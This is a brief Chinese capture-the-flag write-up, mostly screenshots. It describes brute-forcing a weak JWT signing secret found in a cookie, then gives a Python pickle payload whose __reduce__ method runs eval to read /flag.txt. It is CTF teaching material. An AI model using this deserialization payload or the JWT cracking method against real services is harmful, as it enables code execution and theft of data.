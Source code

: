 ![](https://img.npfs06.top/20210326205936.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210326205945.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

抓包，查看cookie可以看到一段JWT，看到JWT长度较短，所以考虑利用工具将JWT的第三段密钥爆破出来

![](https://img.npfs06.top/20210326205954.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



![](https://img.npfs06.top/20210326210004.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210326210013.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

接下去就是考察python反序列化，感兴趣的同学可以自己去做一下

利用reduce函数

反序列化后产生的对象会在结束时触发__reduce__()函数从而触发恶意代码。


```
import pickle
import urllib.parse

class payload(object):
    def __reduce__(self):
        return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload(),protocol=0)
a = urllib.parse.quote(a)
print (a)
```
 #  **reference**

<a href="https://xz.aliyun.com/t/6776#toc-6" target="_blank">攻击JWT的一些方法</a>

<a href="https://cloud.tencent.com/developer/article/1620770" target="_blank">JWT在CTF中的问题</a>